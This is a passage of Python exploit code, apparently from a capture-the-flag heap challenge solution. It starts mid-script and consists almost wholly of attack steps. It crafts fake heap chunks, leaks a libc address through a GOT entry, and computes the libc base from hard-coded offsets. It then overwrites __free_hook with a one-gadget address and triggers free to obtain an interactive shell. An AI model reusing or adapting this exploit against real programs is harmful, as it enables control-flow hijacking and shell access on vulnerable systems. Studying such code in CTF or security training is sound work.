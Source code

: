 ```python
payload += p64(0xf0) * 2
fn_edit(payload)
fn_leak(addr_name, 0x60, str(hex(addr_name)))

payload = ""
payload += "A\x0a" + "\x00"*6 + p64(0x31)
payload += p64(0xf0) * 2
payload += p64(addr_pass)
payload += p64(got_libc_main)
fn_edit(payload)

fn_leak(addr_name, 0x60, str(hex(addr_name)))

recv = fn_view(1).split(": ")[1].split("\x0a")[0]
recv = u64(recv.ljust(8, "\x00"))
libc_base = recv - 0x20740

one_shot      = libc_base + 0x4526a
__free_hook   = libc_base + 0x3c67a8
__libc_start_main = libc_base + 0x20740

print "libc base : {}".format(hex(libc_base))

payload = ""
payload += "A\x0a" + "\x00"*6 + p64(0x31)
payload += p64(0xf0) * 2
payload += p64(addr_pass) * 2
payload += p64(__free_hook)
fn_edit(payload)
fn_leak(addr_cur_idx, 0x10, "cur idx")

fn_leak(addr_name, 0x60, str(hex(addr_name)))
fn_leak(__free_hook, 0x10, "__free_hook : "+hex(__free_hook))

fn_edit(p64(one_shot))
fn_leak(__free_hook, 0x10, "__free_hook : "+hex(__free_hook))

fn_free(0, True)
p.interactive()
```
